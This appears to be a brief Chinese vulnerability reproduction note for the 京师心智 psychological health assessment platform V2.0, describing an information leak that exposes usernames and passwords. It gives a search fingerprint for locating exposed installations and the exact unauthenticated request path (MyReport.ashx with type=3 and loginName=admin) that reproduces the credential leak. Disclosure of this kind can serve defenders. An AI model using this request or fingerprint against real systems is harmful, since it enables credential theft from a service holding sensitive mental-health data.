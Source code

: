 **<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">京师心智心理健康测评系统是一款由北京师范大学心理学专家指导研发的心理健康测评系统。京师心智心理健康测评系统存在信息泄露，攻击者构造特定参数可导致用户名密码泄露。  
</font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">京师心智心理测评健康管理平台V2.0  
</font>**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">body="JS/ligerComboBox/ligerTree.js"  
</font>![](images/1710684489593-10e919f6-9db5-4138-b7ab-cd2d4c5769c7.png)

<font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">四、漏洞复现</font>**<font style="color:rgb(38, 38, 38);"></font>

```java
 /FunctionModular/PersonalReport/Ajax/MyReport.ashx?type=3&loginName=admin
```

![](images/1710684563270-3eed5071-8dcd-49bb-9cd9-4a5e3381dfd8.png)

  


